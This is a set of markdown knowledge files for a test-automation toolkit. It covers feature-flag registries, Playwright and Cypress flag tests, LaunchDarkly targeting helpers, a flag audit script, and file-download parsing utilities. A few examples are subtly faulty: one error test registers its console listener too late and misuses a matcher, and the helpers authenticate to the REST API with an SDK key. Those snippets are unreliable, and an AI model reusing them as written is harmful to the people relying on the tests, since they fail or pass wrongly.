    key: FLAGS.NEW_CHECKOUT_FLOW,
    name: 'New Checkout Flow',
    owner: 'payments-team',
    createdDate: '2025-01-15',
    expiryDate: '2025-03-15',
    defaultState: false,
    requiresCleanup: true,
    dependencies: [FLAGS.USE_NEW_API_ENDPOINT],
    telemetryEvents: ['checkout_started', 'checkout_completed'],
  },
  [FLAGS.DARK_MODE]: {
    key: FLAGS.DARK_MODE,
    name: 'Dark Mode UI',
    owner: 'frontend-team',
    createdDate: '2025-01-10',
    defaultState: false,
    requiresCleanup: false, // Permanent feature toggle
  },
  // ... rest of registry
};

/**
 * Validate flag exists in registry
 * Throws at runtime if flag is unregistered
 */
export function validateFlag(flag: string): asserts flag is FlagKey {
  if (!Object.values(FLAGS).includes(flag as FlagKey)) {
    throw new Error(`Unregistered feature flag: ${flag}`);
  }
}

/**
 * Check if flag is expired (needs removal)
 */
export function isFlagExpired(flag: FlagKey): boolean {
  const metadata = FLAG_REGISTRY[flag];
  if (!metadata.expiryDate) return false;

  const expiry = new Date(metadata.expiryDate);
  return Date.now() > expiry.getTime();
}

/**
 * Get all expired flags requiring cleanup
 */
export function getExpiredFlags(): FlagMetadata[] {
  return Object.values(FLAG_REGISTRY).filter((meta) => isFlagExpired(meta.key));
}
```

**Usage in application code**:

```typescript
// components/Checkout.tsx
import { FLAGS } from '@/utils/feature-flags';
import { useFeatureFlag } from '@/hooks/useFeatureFlag';

export function Checkout() {
  const isNewFlow = useFeatureFlag(FLAGS.NEW_CHECKOUT_FLOW);

  return isNewFlow ? <NewCheckoutFlow /> : <LegacyCheckoutFlow />;
}
```

**Key Points**:

- **Type safety**: TypeScript catches typos at compile time
- **Runtime validation**: validateFlag ensures only registered flags used
- **Metadata tracking**: Owner, dates, dependencies documented
- **Expiry alerts**: Automated detection of stale flags
- **Single source of truth**: All flags defined in one place

---

### Example 2: Feature Flag Testing Pattern (Both States)

**Context**: Comprehensive testing of feature flag variations with proper cleanup.

**Implementation**:

```typescript
// tests/e2e/checkout-feature-flag.spec.ts
import { test, expect } from '@playwright/test';
import { FLAGS } from '@/utils/feature-flags';

/**
 * Feature Flag Testing Strategy:
 * 1. Test BOTH enabled and disabled states
 * 2. Clean up targeting after each test
 * 3. Use dedicated test users (not production data)
 * 4. Verify telemetry events fire correctly
 */

test.describe('Checkout Flow - Feature Flag Variations', () => {
  let testUserId: string;

  test.beforeEach(async () => {
    // Generate unique test user ID
    testUserId = `test-user-${Date.now()}`;
  });

  test.afterEach(async ({ request }) => {
    // CRITICAL: Clean up flag targeting to prevent shared env pollution
    await request.post('/api/feature-flags/cleanup', {
      data: {
        flagKey: FLAGS.NEW_CHECKOUT_FLOW,
        userId: testUserId,
      },
    });
  });

  test('should use NEW checkout flow when flag is ENABLED', async ({ page, request }) => {
    // Arrange: Enable flag for test user
    await request.post('/api/feature-flags/target', {
      data: {
        flagKey: FLAGS.NEW_CHECKOUT_FLOW,
        userId: testUserId,
        variation: true, // ENABLED
      },
    });

    // Act: Navigate as targeted user
    await page.goto('/checkout', {
      extraHTTPHeaders: {
        'X-Test-User-ID': testUserId,
      },
    });

    // Assert: New flow UI elements visible
    await expect(page.getByTestId('checkout-v2-container')).toBeVisible();
    await expect(page.getByTestId('express-payment-options')).toBeVisible();
    await expect(page.getByTestId('saved-addresses-dropdown')).toBeVisible();

    // Assert: Legacy flow NOT visible
    await expect(page.getByTestId('checkout-v1-container')).not.toBeVisible();

    // Assert: Telemetry event fired
    const analyticsEvents = await page.evaluate(() => (window as any).__ANALYTICS_EVENTS__ || []);
    expect(analyticsEvents).toContainEqual(
      expect.objectContaining({
        event: 'checkout_started',
        properties: expect.objectContaining({
          variant: 'new_flow',
        }),
      }),
    );
  });

  test('should use LEGACY checkout flow when flag is DISABLED', async ({ page, request }) => {
    // Arrange: Disable flag for test user (or don't target at all)
    await request.post('/api/feature-flags/target', {
      data: {
        flagKey: FLAGS.NEW_CHECKOUT_FLOW,
        userId: testUserId,
        variation: false, // DISABLED
      },
    });

    // Act: Navigate as targeted user
    await page.goto('/checkout', {
      extraHTTPHeaders: {
        'X-Test-User-ID': testUserId,
      },
    });

    // Assert: Legacy flow UI elements visible
    await expect(page.getByTestId('checkout-v1-container')).toBeVisible();
    await expect(page.getByTestId('legacy-payment-form')).toBeVisible();

    // Assert: New flow NOT visible
    await expect(page.getByTestId('checkout-v2-container')).not.toBeVisible();
    await expect(page.getByTestId('express-payment-options')).not.toBeVisible();

    // Assert: Telemetry event fired with correct variant
    const analyticsEvents = await page.evaluate(() => (window as any).__ANALYTICS_EVENTS__ || []);
    expect(analyticsEvents).toContainEqual(
      expect.objectContaining({
        event: 'checkout_started',
        properties: expect.objectContaining({
          variant: 'legacy_flow',
        }),
      }),
    );
  });

  test('should handle flag evaluation errors gracefully', async ({ page, request }) => {
    // Arrange: Simulate flag service unavailable
    await page.route('**/api/feature-flags/evaluate', (route) => route.fulfill({ status: 500, body: 'Service Unavailable' }));

    // Act: Navigate (should fallback to default state)
    await page.goto('/checkout', {
      extraHTTPHeaders: {
        'X-Test-User-ID': testUserId,
      },
    });

    // Assert: Fallback to safe default (legacy flow)
    await expect(page.getByTestId('checkout-v1-container')).toBeVisible();

    // Assert: Error logged but no user-facing error
    const consoleErrors = [];
    page.on('console', (msg) => {
      if (msg.type() === 'error') consoleErrors.push(msg.text());
    });
    expect(consoleErrors).toContain(expect.stringContaining('Feature flag evaluation failed'));
  });
});
```

**Cypress equivalent**:

```javascript
// cypress/e2e/checkout-feature-flag.cy.ts
import { FLAGS } from '@/utils/feature-flags';

describe('Checkout Flow - Feature Flag Variations', () => {
  let testUserId;

  beforeEach(() => {
    testUserId = `test-user-${Date.now()}`;
  });

  afterEach(() => {
    // Clean up targeting
    cy.task('removeFeatureFlagTarget', {
      flagKey: FLAGS.NEW_CHECKOUT_FLOW,
      userId: testUserId,
    });
  });

  it('should use NEW checkout flow when flag is ENABLED', () => {
    // Arrange: Enable flag via Cypress task
    cy.task('setFeatureFlagVariation', {
      flagKey: FLAGS.NEW_CHECKOUT_FLOW,
      userId: testUserId,
      variation: true,
    });

    // Act
    cy.visit('/checkout', {
      headers: { 'X-Test-User-ID': testUserId },
    });

    // Assert
    cy.get('[data-testid="checkout-v2-container"]').should('be.visible');
    cy.get('[data-testid="checkout-v1-container"]').should('not.exist');
  });

  it('should use LEGACY checkout flow when flag is DISABLED', () => {
    // Arrange: Disable flag
    cy.task('setFeatureFlagVariation', {
      flagKey: FLAGS.NEW_CHECKOUT_FLOW,
      userId: testUserId,
      variation: false,
    });

    // Act
    cy.visit('/checkout', {
      headers: { 'X-Test-User-ID': testUserId },
    });

    // Assert
    cy.get('[data-testid="checkout-v1-container"]').should('be.visible');
    cy.get('[data-testid="checkout-v2-container"]').should('not.exist');
  });
});
```

**Key Points**:

- **Test both states**: Enabled AND disabled variations
- **Automatic cleanup**: afterEach removes targeting (prevent pollution)
- **Unique test users**: Avoid conflicts with real user data
- **Telemetry validation**: Verify analytics events fire correctly
- **Graceful degradation**: Test fallback behavior on errors

---

### Example 3: Feature Flag Targeting Helper Pattern

**Context**: Reusable helpers for programmatic flag control via LaunchDarkly/Split.io API.

**Implementation**:

```typescript
// tests/support/feature-flag-helpers.ts
import { request as playwrightRequest } from '@playwright/test';
import { FLAGS, FlagKey } from '@/utils/feature-flags';

/**
 * LaunchDarkly API client configuration
 * Use test project SDK key (NOT production)
 */
const LD_SDK_KEY = process.env.LD_SDK_KEY_TEST;
const LD_API_BASE = 'https://app.launchdarkly.com/api/v2';

type FlagVariation = boolean | string | number | object;

/**
 * Set flag variation for specific user
 * Uses LaunchDarkly API to create user target
 */
export async function setFlagForUser(flagKey: FlagKey, userId: string, variation: FlagVariation): Promise<void> {
  const response = await playwrightRequest.newContext().then((ctx) =>
    ctx.post(`${LD_API_BASE}/flags/${flagKey}/targeting`, {
      headers: {
        Authorization: LD_SDK_KEY!,
        'Content-Type': 'application/json',
      },
      data: {
        targets: [
          {
            values: [userId],
            variation: variation ? 1 : 0, // 0 = off, 1 = on
          },
        ],
      },
    }),
  );

  if (!response.ok()) {
    throw new Error(`Failed to set flag ${flagKey} for user ${userId}: ${response.status()}`);
  }
}

/**
 * Remove user from flag targeting
 * CRITICAL for test cleanup
 */
export async function removeFlagTarget(flagKey: FlagKey, userId: string): Promise<void> {
  const response = await playwrightRequest.newContext().then((ctx) =>
    ctx.delete(`${LD_API_BASE}/flags/${flagKey}/targeting/users/${userId}`, {
      headers: {
        Authorization: LD_SDK_KEY!,
      },
    }),
  );

  if (!response.ok() && response.status() !== 404) {
    // 404 is acceptable (user wasn't targeted)
    throw new Error(`Failed to remove flag ${flagKey} target for user ${userId}: ${response.status()}`);
  }
}

/**
 * Percentage rollout helper
 * Enable flag for N% of users
 */
export async function setFlagRolloutPercentage(flagKey: FlagKey, percentage: number): Promise<void> {
  if (percentage < 0 || percentage > 100) {
    throw new Error('Percentage must be between 0 and 100');
  }

  const response = await playwrightRequest.newContext().then((ctx) =>
    ctx.patch(`${LD_API_BASE}/flags/${flagKey}`, {
      headers: {
        Authorization: LD_SDK_KEY!,
        'Content-Type': 'application/json',
      },
      data: {
        rollout: {
          variations: [
            { variation: 0, weight: 100 - percentage }, // off
            { variation: 1, weight: percentage }, // on
          ],
        },
      },
    }),
  );

  if (!response.ok()) {
    throw new Error(`Failed to set rollout for flag ${flagKey}: ${response.status()}`);
  }
}

/**
 * Enable flag globally (100% rollout)
 */
export async function enableFlagGlobally(flagKey: FlagKey): Promise<void> {
  await setFlagRolloutPercentage(flagKey, 100);
}

/**
 * Disable flag globally (0% rollout)
 */
export async function disableFlagGlobally(flagKey: FlagKey): Promise<void> {
  await setFlagRolloutPercentage(flagKey, 0);
}

/**
 * Stub feature flags in local/test environments
 * Bypasses LaunchDarkly entirely
 */
export function stubFeatureFlags(flags: Record<FlagKey, FlagVariation>): void {
  // Set flags in localStorage or inject into window
  if (typeof window !== 'undefined') {
    (window as any).__STUBBED_FLAGS__ = flags;
  }
}
```

**Usage in Playwright fixture**:

```typescript
// playwright/fixtures/feature-flag-fixture.ts
import { test as base } from '@playwright/test';
import { setFlagForUser, removeFlagTarget } from '../support/feature-flag-helpers';
import { FlagKey } from '@/utils/feature-flags';

type FeatureFlagFixture = {
  featureFlags: {
    enable: (flag: FlagKey, userId: string) => Promise<void>;
    disable: (flag: FlagKey, userId: string) => Promise<void>;
    cleanup: (flag: FlagKey, userId: string) => Promise<void>;
  };
};

export const test = base.extend<FeatureFlagFixture>({
  featureFlags: async ({}, use) => {
    const cleanupQueue: Array<{ flag: FlagKey; userId: string }> = [];

    await use({
      enable: async (flag, userId) => {
        await setFlagForUser(flag, userId, true);
        cleanupQueue.push({ flag, userId });
      },
      disable: async (flag, userId) => {
        await setFlagForUser(flag, userId, false);
        cleanupQueue.push({ flag, userId });
      },
      cleanup: async (flag, userId) => {
        await removeFlagTarget(flag, userId);
      },
    });

    // Auto-cleanup after test
    for (const { flag, userId } of cleanupQueue) {
      await removeFlagTarget(flag, userId);
    }
  },
});
```

**Key Points**:

- **API-driven control**: No manual UI clicks required
- **Auto-cleanup**: Fixture tracks and removes targeting
- **Percentage rollouts**: Test gradual feature releases
- **Stubbing option**: Local development without LaunchDarkly
- **Type-safe**: FlagKey prevents typos

---

### Example 4: Feature Flag Lifecycle Checklist & Cleanup Strategy

**Context**: Governance checklist and automated cleanup detection for stale flags.

**Implementation**:

```typescript
// scripts/feature-flag-audit.ts
/**
 * Feature Flag Lifecycle Audit Script
 * Run weekly to detect stale flags requiring cleanup
 */

import { FLAG_REGISTRY, FLAGS, getExpiredFlags, FlagKey } from '../src/utils/feature-flags';
import * as fs from 'fs';
import * as path from 'path';

type AuditResult = {
  totalFlags: number;
  expiredFlags: FlagKey[];
  missingOwners: FlagKey[];
  missingDates: FlagKey[];
  permanentFlags: FlagKey[];
  flagsNearingExpiry: FlagKey[];
};

/**
 * Audit all feature flags for governance compliance
 */
function auditFeatureFlags(): AuditResult {
  const allFlags = Object.keys(FLAG_REGISTRY) as FlagKey[];
  const expiredFlags = getExpiredFlags().map((meta) => meta.key);

  // Flags expiring in next 30 days
  const thirtyDaysFromNow = Date.now() + 30 * 24 * 60 * 60 * 1000;
  const flagsNearingExpiry = allFlags.filter((flag) => {
    const meta = FLAG_REGISTRY[flag];
    if (!meta.expiryDate) return false;
    const expiry = new Date(meta.expiryDate).getTime();
    return expiry > Date.now() && expiry < thirtyDaysFromNow;
  });

  // Missing metadata
  const missingOwners = allFlags.filter((flag) => !FLAG_REGISTRY[flag].owner);
  const missingDates = allFlags.filter((flag) => !FLAG_REGISTRY[flag].createdDate);

  // Permanent flags (no expiry, requiresCleanup = false)
  const permanentFlags = allFlags.filter((flag) => {
    const meta = FLAG_REGISTRY[flag];
    return !meta.expiryDate && !meta.requiresCleanup;
  });

  return {
    totalFlags: allFlags.length,
    expiredFlags,
    missingOwners,
    missingDates,
    permanentFlags,
    flagsNearingExpiry,
  };
}

/**
 * Generate markdown report
 */
function generateReport(audit: AuditResult): string {
  let report = `# Feature Flag Audit Report\n\n`;
  report += `**Date**: ${new Date().toISOString()}\n`;
  report += `**Total Flags**: ${audit.totalFlags}\n\n`;

  if (audit.expiredFlags.length > 0) {
    report += `## ⚠️ EXPIRED FLAGS - IMMEDIATE CLEANUP REQUIRED\n\n`;
    audit.expiredFlags.forEach((flag) => {
      const meta = FLAG_REGISTRY[flag];
      report += `- **${meta.name}** (\`${flag}\`)\n`;
      report += `  - Owner: ${meta.owner}\n`;
      report += `  - Expired: ${meta.expiryDate}\n`;
      report += `  - Action: Remove flag code, update tests, deploy\n\n`;
    });
  }

  if (audit.flagsNearingExpiry.length > 0) {
    report += `## ⏰ FLAGS EXPIRING SOON (Next 30 Days)\n\n`;
    audit.flagsNearingExpiry.forEach((flag) => {
      const meta = FLAG_REGISTRY[flag];
      report += `- **${meta.name}** (\`${flag}\`)\n`;
      report += `  - Owner: ${meta.owner}\n`;
      report += `  - Expires: ${meta.expiryDate}\n`;
      report += `  - Action: Plan cleanup or extend expiry\n\n`;
    });
  }

  if (audit.permanentFlags.length > 0) {
    report += `## 🔄 PERMANENT FLAGS (No Expiry)\n\n`;
    audit.permanentFlags.forEach((flag) => {
      const meta = FLAG_REGISTRY[flag];
      report += `- **${meta.name}** (\`${flag}\`) - Owner: ${meta.owner}\n`;
    });
    report += `\n`;
  }

  if (audit.missingOwners.length > 0 || audit.missingDates.length > 0) {
    report += `## ❌ GOVERNANCE ISSUES\n\n`;
    if (audit.missingOwners.length > 0) {
      report += `**Missing Owners**: ${audit.missingOwners.join(', ')}\n`;
    }
    if (audit.missingDates.length > 0) {
      report += `**Missing Created Dates**: ${audit.missingDates.join(', ')}\n`;
    }
    report += `\n`;
  }

  return report;
}

/**
 * Feature Flag Lifecycle Checklist
 */
const FLAG_LIFECYCLE_CHECKLIST = `
# Feature Flag Lifecycle Checklist

## Before Creating a New Flag

- [ ] **Name**: Follow naming convention (kebab-case, descriptive)
- [ ] **Owner**: Assign team/individual responsible
- [ ] **Default State**: Determine safe default (usually false)
- [ ] **Expiry Date**: Set removal date (30-90 days typical)
- [ ] **Dependencies**: Document related flags
- [ ] **Telemetry**: Plan analytics events to track
- [ ] **Rollback Plan**: Define how to disable quickly

## During Development

- [ ] **Code Paths**: Both enabled/disabled states implemented
- [ ] **Tests**: Both variations tested in CI
- [ ] **Documentation**: Flag purpose documented in code/PR
- [ ] **Telemetry**: Analytics events instrumented
- [ ] **Error Handling**: Graceful degradation on flag service failure

## Before Launch

- [ ] **QA**: Both states tested in staging
- [ ] **Rollout Plan**: Gradual rollout percentage defined
- [ ] **Monitoring**: Dashboards/alerts for flag-related metrics
- [ ] **Stakeholder Communication**: Product/design aligned

## After Launch (Monitoring)

- [ ] **Metrics**: Success criteria tracked
- [ ] **Error Rates**: No increase in errors
- [ ] **Performance**: No degradation
- [ ] **User Feedback**: Qualitative data collected

## Cleanup (Post-Launch)

- [ ] **Remove Flag Code**: Delete if/else branches
- [ ] **Update Tests**: Remove flag-specific tests
- [ ] **Remove Targeting**: Clear all user targets
- [ ] **Delete Flag Config**: Remove from LaunchDarkly/registry
- [ ] **Update Documentation**: Remove references
- [ ] **Deploy**: Ship cleanup changes
`;

// Run audit
const audit = auditFeatureFlags();
const report = generateReport(audit);

// Save report
const outputPath = path.join(__dirname, '../feature-flag-audit-report.md');
fs.writeFileSync(outputPath, report);
fs.writeFileSync(path.join(__dirname, '../FEATURE-FLAG-CHECKLIST.md'), FLAG_LIFECYCLE_CHECKLIST);

console.log(`✅ Audit complete. Report saved to: ${outputPath}`);
console.log(`Total flags: ${audit.totalFlags}`);
console.log(`Expired flags: ${audit.expiredFlags.length}`);
console.log(`Flags expiring soon: ${audit.flagsNearingExpiry.length}`);

// Exit with error if expired flags exist
if (audit.expiredFlags.length > 0) {
  console.error(`\n❌ EXPIRED FLAGS DETECTED - CLEANUP REQUIRED`);
  process.exit(1);
}
```

**package.json scripts**:

```json
{
  "scripts": {
    "feature-flags:audit": "ts-node scripts/feature-flag-audit.ts",
    "feature-flags:audit:ci": "npm run feature-flags:audit || true"
  }
}
```

**Key Points**:

- **Automated detection**: Weekly audit catches stale flags
- **Lifecycle checklist**: Comprehensive governance guide
- **Expiry tracking**: Flags auto-expire after defined date
- **CI integration**: Audit runs in pipeline, warns on expiry
- **Ownership clarity**: Every flag has assigned owner

---

## Feature Flag Testing Checklist

Before merging flag-related code, verify:

- [ ] **Both states tested**: Enabled AND disabled variations covered
- [ ] **Cleanup automated**: afterEach removes targeting (no manual cleanup)
- [ ] **Unique test data**: Test users don't collide with production
- [ ] **Telemetry validated**: Analytics events fire for both variations
- [ ] **Error handling**: Graceful fallback when flag service unavailable
- [ ] **Flag metadata**: Owner, dates, dependencies documented in registry
- [ ] **Rollback plan**: Clear steps to disable flag in production
- [ ] **Expiry date set**: Removal date defined (or marked permanent)

## Integration Points

- Used in workflows: `*automate` (test generation), `*framework` (flag setup)
- Related fragments: `test-quality.md`, `selective-testing.md`
- Flag services: LaunchDarkly, Split.io, Unleash, custom implementations

_Source: LaunchDarkly strategy blog, Murat test architecture notes, enterprise feature flag governance_
```

## File: `src/agents/bmad-tea/resources/knowledge/file-utils.md`
```markdown
# File Utilities

## Principle

Read and validate files (CSV, XLSX, PDF, ZIP) with automatic parsing, type-safe results, and download handling. Simplify file operations in Playwright tests with built-in format support and validation helpers.

## Rationale

Testing file operations in Playwright requires boilerplate:

- Manual download handling
- External parsing libraries for each format
- No validation helpers
- Type-unsafe results
- Repetitive path handling

The `file-utils` module provides:

- **Auto-parsing**: CSV, XLSX, PDF, ZIP automatically parsed
- **Download handling**: Single function for UI or API-triggered downloads
- **Type-safe**: TypeScript interfaces for parsed results
- **Validation helpers**: Row count, header checks, content validation
- **Format support**: Multiple sheet support (XLSX), text extraction (PDF), archive extraction (ZIP)

## Why Use This Instead of Vanilla Playwright?

| Vanilla Playwright                          | File Utils                                       |
| ------------------------------------------- | ------------------------------------------------ |
| ~80 lines per CSV flow (download + parse)   | ~10 lines end-to-end                             |
| Manual event orchestration for downloads    | Encapsulated in `handleDownload()`               |
| Manual path handling and `saveAs`           | Returns a ready-to-use file path                 |
| Manual existence checks and error handling  | Centralized in one place via utility patterns    |
| Manual CSV parsing config (headers, typing) | `readCSV()` returns `{ data, headers }` directly |

## Pattern Examples

### Example 1: UI-Triggered CSV Download

**Context**: User clicks button, CSV downloads, validate contents.

**Implementation**:

```typescript
import { handleDownload, readCSV } from '@seontechnologies/playwright-utils/file-utils';
import path from 'node:path';

const DOWNLOAD_DIR = path.join(__dirname, '../downloads');

test('should download and validate CSV', async ({ page }) => {
  const downloadPath = await handleDownload({
    page,
    downloadDir: DOWNLOAD_DIR,
    trigger: () => page.getByTestId('download-button-text/csv').click(),
  });

  const csvResult = await readCSV({ filePath: downloadPath });

  // Access parsed data and headers
  const { data, headers } = csvResult.content;
  expect(headers).toEqual(['ID', 'Name', 'Email']);
  expect(data[0]).toMatchObject({
    ID: expect.any(String),
    Name: expect.any(String),
    Email: expect.any(String),
  });
});
```

**Key Points**:

- `handleDownload` waits for download, returns file path
- `readCSV` auto-parses to `{ headers, data }`
- Type-safe access to parsed content
- Clean up downloads in `afterEach`

### Example 2: XLSX with Multiple Sheets

**Context**: Excel file with multiple sheets (e.g., Summary, Details, Errors).

**Implementation**:

```typescript
import { readXLSX } from '@seontechnologies/playwright-utils/file-utils';

test('should read multi-sheet XLSX', async () => {
  const downloadPath = await handleDownload({
    page,
    downloadDir: DOWNLOAD_DIR,
    trigger: () => page.click('[data-testid="export-xlsx"]'),
  });

  const xlsxResult = await readXLSX({ filePath: downloadPath });

  // Verify worksheet structure
  expect(xlsxResult.content.worksheets.length).toBeGreaterThan(0);
  const worksheet = xlsxResult.content.worksheets[0];
  expect(worksheet).toBeDefined();
  expect(worksheet).toHaveProperty('name');

  // Access sheet data
  const sheetData = worksheet?.data;
  expect(Array.isArray(sheetData)).toBe(true);

  // Use type assertion for type safety
  const firstRow = sheetData![0] as Record<string, unknown>;
  expect(firstRow).toHaveProperty('id');
});
```

**Key Points**:

- `worksheets` array with `name` and `data` properties
- Access sheets by name
- Each sheet has its own headers and data
- Type-safe sheet iteration

### Example 3: PDF Text Extraction

**Context**: Validate PDF report contains expected content.

**Implementation**:

```typescript
import { readPDF } from '@seontechnologies/playwright-utils/file-utils';

test('should validate PDF report', async () => {
  const downloadPath = await handleDownload({
    page,
    downloadDir: DOWNLOAD_DIR,
    trigger: () => page.getByTestId('download-button-Text-based PDF Document').click(),
  });

  const pdfResult = await readPDF({ filePath: downloadPath });

  // content is extracted text from all pages
  expect(pdfResult.pagesCount).toBe(1);
  expect(pdfResult.fileName).toContain('.pdf');
  expect(pdfResult.content).toContain('All you need is the free Adobe Acrobat Reader');
});
```

**PDF Reader Options:**

```typescript
const result = await readPDF({
  filePath: '/path/to/document.pdf',
  mergePages: false, // Keep pages separate (default: true)
  debug: true, // Enable debug logging
  maxPages: 10, // Limit processing to first 10 pages
});
```

**Important Limitation - Vector-based PDFs:**

Text extraction may fail for PDFs that store text as vector graphics (e.g., those generated by jsPDF):

```typescript
// Vector-based PDF example (extraction fails gracefully)
const pdfResult = await readPDF({ filePath: downloadPath });

expect(pdfResult.pagesCount).toBe(1);
expect(pdfResult.info.extractionNotes).toContain('Text extraction from vector-based PDFs is not supported.');
```

Such PDFs will have:

- `textExtractionSuccess: false`
- `isVectorBased: true`
- Explanatory message in `extractionNotes`

### Example 4: ZIP Archive Validation

**Context**: Validate ZIP contains expected files and extract specific file.

**Implementation**:

```typescript
import { readZIP } from '@seontechnologies/playwright-utils/file-utils';

test('should validate ZIP archive', async () => {
  const downloadPath = await handleDownload({
    page,
    downloadDir: DOWNLOAD_DIR,
    trigger: () => page.click('[data-testid="download-backup"]'),
  });

  const zipResult = await readZIP({ filePath: downloadPath });

  // Check file list
  expect(Array.isArray(zipResult.content.entries)).toBe(true);
  expect(zipResult.content.entries).toContain('Case_53125_10-19-22_AM/Case_53125_10-19-22_AM_case_data.csv');

  // Extract specific file
  const targetFile = 'Case_53125_10-19-22_AM/Case_53125_10-19-22_AM_case_data.csv';
  const zipWithExtraction = await readZIP({
    filePath: downloadPath,
    fileToExtract: targetFile,
  });

  // Access extracted file buffer
  const extractedFiles = zipWithExtraction.content.extractedFiles || {};
  const fileBuffer = extractedFiles[targetFile];
  expect(fileBuffer).toBeInstanceOf(Buffer);
  expect(fileBuffer?.length).toBeGreaterThan(0);
});
```

**Key Points**:

- `content.entries` lists all files in archive
- `fileToExtract` extracts specific files to Buffer
- Validate archive structure
- Read and parse individual files from ZIP

### Example 5: API-Triggered Download

**Context**: API endpoint returns file download (not UI click).

**Implementation**:

```typescript
test('should download via API', async ({ page, request }) => {
  const downloadPath = await handleDownload({
    page, // Still need page for download events
    downloadDir: DOWNLOAD_DIR,
    trigger: async () => {
      const response = await request.get('/api/export/csv', {
        headers: { Authorization: 'Bearer token' },
      });

      if (!response.ok()) {
        throw new Error(`Export failed: ${response.status()}`);
      }
    },
  });

  const { content } = await readCSV({ filePath: downloadPath });

  expect(content.data).toHaveLength(100);
});
```

**Key Points**:

- `trigger` can be async API call
- API must return `Content-Disposition` header
- Still need `page` for download events
- Works with authenticated endpoints

### Example 6: Reading CSV from Buffer (ZIP extraction)

**Context**: Read CSV content directly from a Buffer (e.g., extracted from ZIP).

**Implementation**:

```typescript
// Read from a Buffer (e.g., extracted from a ZIP)
const zipResult = await readZIP({
  filePath: 'archive.zip',
  fileToExtract: 'data.csv',
});
const fileBuffer = zipResult.content.extractedFiles?.['data.csv'];
const csvFromBuffer = await readCSV({ content: fileBuffer });

// Read from a string
const csvString = 'name,age\nJohn,30\nJane,25';
const csvFromString = await readCSV({ content: csvString });

const { data, headers } = csvFromString.content;
expect(headers).toContain('name');
expect(headers).toContain('age');
```

## API Reference

### CSV Reader Options

| Option         | Type               | Default  | Description                            |
| -------------- | ------------------ | -------- | -------------------------------------- |
| `filePath`     | `string`           | -        | Path to CSV file (mutually exclusive)  |
| `content`      | `string \| Buffer` | -        | Direct content (mutually exclusive)    |
| `delimiter`    | `string \| 'auto'` | `','`    | Value separator, auto-detect if 'auto' |
| `encoding`     | `string`           | `'utf8'` | File encoding                          |
| `parseHeaders` | `boolean`          | `true`   | Use first row as headers               |
| `trim`         | `boolean`          | `true`   | Trim whitespace from values            |

### XLSX Reader Options

| Option      | Type     | Description                    |
| ----------- | -------- | ------------------------------ |
| `filePath`  | `string` | Path to XLSX file              |
| `sheetName` | `string` | Name of sheet to set as active |

### PDF Reader Options

| Option       | Type      | Default | Description                 |
| ------------ | --------- | ------- | --------------------------- |
| `filePath`   | `string`  | -       | Path to PDF file (required) |
| `mergePages` | `boolean` | `true`  | Merge text from all pages   |
| `maxPages`   | `number`  | -       | Maximum pages to extract    |
| `debug`      | `boolean` | `false` | Enable debug logging        |

### ZIP Reader Options

| Option          | Type     | Description                        |
| --------------- | -------- | ---------------------------------- |
| `filePath`      | `string` | Path to ZIP file                   |
| `fileToExtract` | `string` | Specific file to extract to Buffer |

### Return Values

#### CSV Reader Return Value

```typescript
{
  content: {
    data: Array<Array<string | number>>,  // Parsed rows (excludes header row if parseHeaders: true)
    headers: string[] | null              // Column headers (null if parseHeaders: false)
  }
}
```

#### XLSX Reader Return Value

```typescript
{
  content: {
    worksheets: Array<{
      name: string; // Sheet name
      rows: Array<Array<any>>; // All rows including headers
      headers?: string[]; // First row as headers (if present)
    }>;
  }
}
```

#### PDF Reader Return Value

```typescript
{
  content: string,                        // Extracted text (merged or per-page based on mergePages)
  pagesCount: number,                     // Total pages in PDF
  fileName?: string,                      // Original filename if available
  info?: Record<string, any>              // PDF metadata (author, title, etc.)
}
```

> **Note**: When `mergePages: false`, `content` is an array of strings (one per page). When `maxPages` is set, only that many pages are extracted.

#### ZIP Reader Return Value

```typescript
{
  content: {
    entries: Array<{
      name: string,                       // File/directory path within ZIP
      size: number,                       // Uncompressed size in bytes
      isDirectory: boolean                // True for directories
    }>,
    extractedFiles: Record<string, Buffer | string>  // Extracted file contents by path
  }
}
```

> **Note**: When `fileToExtract` is specified, only that file appears in `extractedFiles`.

## Download Cleanup Pattern

```typescript
test.afterEach(async () => {
  // Clean up downloaded files
  await fs.remove(DOWNLOAD_DIR);
});
```

## Comparison with Vanilla Playwright

Vanilla Playwright (real test) snippet:

```typescript
// ~80 lines of boilerplate!
const [download] = await Promise.all([page.waitForEvent('download'), page.getByTestId('download-button-CSV Export').click()]);

const failure = await download.failure();
expect(failure).toBeNull();

const filePath = testInfo.outputPath(download.suggestedFilename());
await download.saveAs(filePath);

await expect
  .poll(
    async () => {
      try {
        await fs.access(filePath);
        return true;
      } catch {
        return false;
      }
    },
    { timeout: 5000, intervals: [100, 200, 500] },
  )
  .toBe(true);

const csvContent = await fs.readFile(filePath, 'utf-8');

const parseResult = parse(csvContent, {
  header: true,
  skipEmptyLines: true,
  dynamicTyping: true,
  transformHeader: (header: string) => header.trim(),
});

if (parseResult.errors.length > 0) {
  throw new Error(`CSV parsing errors: ${JSON.stringify(parseResult.errors)}`);
}

const data = parseResult.data as Array<Record<string, unknown>>;
const headers = parseResult.meta.fields || [];
```

With File Utils, the same flow becomes:

```typescript
const downloadPath = await handleDownload({
  page,
  downloadDir: DOWNLOAD_DIR,
  trigger: () => page.getByTestId('download-button-text/csv').click(),
});

const { data, headers } = (await readCSV({ filePath: downloadPath })).content;
```

## Related Fragments

- `overview.md` - Installation and imports
- `api-request.md` - API-triggered downloads
- `recurse.md` - Poll for file generation completion

## Anti-Patterns

**DON'T leave downloads in place:**

```typescript
test('creates file', async () => {
  await handleDownload({ ... })
  // File left in downloads folder
})
```

**DO clean up after tests:**

```typescript
test.afterEach(async () => {
  await fs.remove(DOWNLOAD_DIR);
});
```
```

## File: `src/agents/bmad-tea/resources/knowledge/fixture-architecture.md`
```markdown
# Fixture Architecture Playbook

## Principle

Build test helpers as pure functions first, then wrap them in framework-specific fixtures. Compose capabilities using `mergeTests` (Playwright) or layered commands (Cypress) instead of inheritance. Each fixture should solve one isolated concern (auth, API, logs, network).

## Rationale

Traditional Page Object Models create tight coupling through inheritance chains (`BasePage → LoginPage → AdminPage`). When base classes change, all descendants break. Pure functions with fixture wrappers provide:

- **Testability**: Pure functions run in unit tests without framework overhead
- **Composability**: Mix capabilities freely via `mergeTests`, no inheritance constraints
- **Reusability**: Export fixtures via package subpaths for cross-project sharing
- **Maintainability**: One concern per fixture = clear responsibility boundaries

## Pattern Examples

### Example 1: Pure Function → Fixture Pattern

**Context**: When building any test helper, always start with a pure function that accepts all dependencies explicitly. Then wrap it in a Playwright fixture or Cypress command.

**Implementation**:

```typescript
